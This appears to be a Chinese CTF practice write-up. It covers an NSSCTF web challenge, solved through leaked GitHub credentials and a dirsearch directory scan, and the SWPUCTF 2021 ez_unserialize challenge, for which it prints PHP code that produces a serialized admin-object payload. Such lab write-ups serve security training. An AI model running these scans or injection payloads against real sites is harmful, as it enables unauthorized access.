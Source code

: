 ```

![image-20250731203338046](E:\note_ctf\assets\image-20250731203338046.png)

## 方法一

![image-20250731203653336](E:\note_ctf\assets\image-20250731203653336.png)

在GitHub上直接找到账号密码，登录成功后可以在phpinfo里找到flag（但是我不知道怎么回事没法直接点击访问；同样这也颇有一种定点打靶的感觉，没有题解我肯定不太知道在这里的，还得练）

![image-20250731204319263](E:\note_ctf\assets\image-20250731204319263.png)

## 方法二

dirserach目录扫描

```
python dirsearch.py -u http://node4.anna.nssctf.cn:28342
```

![image-20250731204147919](E:\note_ctf\assets\image-20250731204147919.png)

![image-20250731204105344](E:\note_ctf\assets\image-20250731204105344.png)

# [SWPUCTF 2021 新生赛]ez_unserialize

![image-20250731204612535](E:\note_ctf\assets\image-20250731204612535.png)

发现disallow

Robots 协议（也称为爬虫协议、机器人协议等）的全称是 “网络爬虫排除标准”（Robots Exclusion Protocol），网站通过 Robots 协议告诉搜索引擎哪些页面可抓，哪些页面不能抓。

disallow就是爬虫不能搜索的所以我们去看看robots.txt

![image-20250731204659798](E:\note_ctf\assets\image-20250731204659798.png)

![image-20250731204726640](E:\note_ctf\assets\image-20250731204726640.png)

```
<?php
class wllm{
    public $admin;
    public $passwd;
    public function __construct(){
        $this->admin ="user";
        $this->passwd = "123456";
    }

}

$w=new wllm();
$w->admin="admin";
$w->passwd="ctf";
$w=serialize($w);
echo $w;
```

输出

```
O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}
```

![image-20250731205159567](E:\note_ctf\assets\image-20250731205159567.png)

```